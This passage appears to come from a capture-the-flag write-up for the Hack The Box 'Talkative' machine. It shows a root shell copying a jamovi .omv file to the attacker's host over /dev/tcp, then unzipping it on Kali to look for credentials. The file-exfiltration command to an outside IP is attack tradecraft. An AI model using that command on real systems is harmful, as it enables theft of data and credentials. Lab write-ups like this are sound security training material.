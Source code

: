 There are some interesting files on `/root` directory, so let's move it.

```bash
root@b06821bbda78:~# ls -al
ls -al
total 32
drwx------ 1 root root 4096 Mar 14 06:10 .
drwxr-xr-x 1 root root 4096 Mar  7  2022 ..
lrwxrwxrwx 1 root root    9 Mar  7  2022 .bash_history -> /dev/null
-rw-r--r-- 1 root root 3106 Oct 22  2015 .bashrc
drwxr-xr-x 3 root root 4096 Mar 14 05:05 .jamovi
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
drwxrwxrwx 2 root root 4096 Aug 15  2021 Documents
-rw-r--r-- 1 root root 2192 Aug 15  2021 bolt-administration.omv
-rw-r--r-- 1 root root   92 Mar 14 06:10 typescript


root@b06821bbda78:~# cat bolt-administration.omv > /dev/tcp/10.10.14.7/5736
cat bolt-administration.omv > /dev/tcp/10.10.14.7/5736


root@b06821bbda78:~# md5sum bolt-administration.omv
md5sum bolt-administration.omv
89a471297760280c51d7a48246f95628  bolt-administration.omv
```

Now I have `omv` file that I looked for.
Given its name `bolt-administration`, I guess that this includes some credential information.

### omv File

`.omv` files are documents from jamovi, but they are also just Zip archives like `docx`, `xlsx` files.

```bash
┌──(kali㉿kali)-[~/htb/talkative/bolt-administration]
└─$ unzip bolt-administration.omv 
Archive:  bolt-administration.omv
  inflating: META-INF/MANIFEST.MF    
  inflating: meta                    
  inflating: index.html              
  inflating: metadata.json           
  inflating: xdata.json              
  inflating: data.bin                
  inflating: 01 empty/analysis       
                                                                             
┌──(kali㉿kali)-[~/htb/talkative/bolt-administration]
└─$ ls
'01 empty'                 data.bin     meta            META-INF
 bolt-administration.omv   index.html   metadata.json   xdata.json
                                                                             
┌──(kali㉿kali)-[~/htb/talkative/bolt-administration]
└─$ tree
.
├── 01 empty
│   └── analysis
├── bolt-administration.omv
├── data.bin
├── index.html
├── meta
├── metadata.json
├── META-INF
│   └── MANIFEST.MF
└── xdata.json

3 directories, 8 files
```